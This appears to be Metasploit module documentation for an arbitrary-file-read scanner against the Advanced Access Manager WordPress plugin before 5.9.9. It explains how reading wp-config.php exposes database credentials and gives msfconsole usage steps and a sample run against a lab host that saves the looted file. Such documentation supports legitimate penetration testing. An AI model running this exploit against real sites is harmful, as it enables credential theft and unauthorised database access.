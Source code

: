 ## Description
The Advanced Access Manager WordPress plugin, versions before 5.9.9, allowed reading arbitrary files.
This way one can download the wp-config.php file and get access to the database, which is publicly reachable on many servers.
The affected function was the printMedia() function in the application/Core/Media.php file.

## Verification Steps
Confirm that functionality works:
1. Start `msfconsole`
2. use `auxiliary/scanner/http/wp_advance_access_manager_file_read`
3. Set the `RHOSTS`
4. Set `TARGETURI`
5. Set `RPORT`
6. Run the exploit: `run`

## Scenarios
```
msf5 > use auxiliary/scanner/http/wp_advance_access_manager_file_read
msf5 auxiliary(scanner/http/wp_advance_access_manager_file_read) > set rhosts 192.168.1.15
rhosts => 192.168.1.15
msf5 auxiliary(scanner/http/wp_advance_access_manager_file_read) > set TARGETURI wordpress/
TARGETURI => wordpress/
msf5 auxiliary(scanner/http/wp_advance_access_manager_file_read) > run

[*] Downloading file...

[....Content File....]

[+] File saved in: /home/thien/.msf4/loot/20211013042725_default_192.168.1.15_advance_access_m_746643.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
## Test environment
Windows 10 running WordPress 5.8.1, Advanced Access Manager 5.9.8

## References
![advance_access_manager](https://user-images.githubusercontent.com/60764841/137097497-389a79d5-4857-40f3-acd3-8227dc405a4d.png)
